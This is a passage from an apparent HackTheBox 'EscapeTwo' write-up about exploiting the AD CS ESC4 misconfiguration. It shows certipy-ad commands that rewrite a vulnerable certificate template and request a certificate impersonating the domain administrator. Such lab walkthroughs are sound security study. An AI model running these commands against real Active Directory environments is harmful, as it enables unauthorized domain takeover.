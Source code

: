 and yeah here

```bash
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions

```

So its ESC4

### ESC4

Before jump ESC4 i wanna use https://github.com/lineeralgebra/autoADCS because it will show us what we need.

![alt text](../assets/images/escapetwo19.png)

For example its asking template and we can give directly.

and it will create commands for us.

#### esc4-commands

```bash
certipy-ad template -username ca_svc@sequel.htb -password 'NewPassword123!' -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51
certipy-ad req -username ca_svc@sequel.htb -password 'NewPassword123!' -ca sequel-DC01-CA -target sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb  -dc-ip 10.10.11.51                                                                                         
```
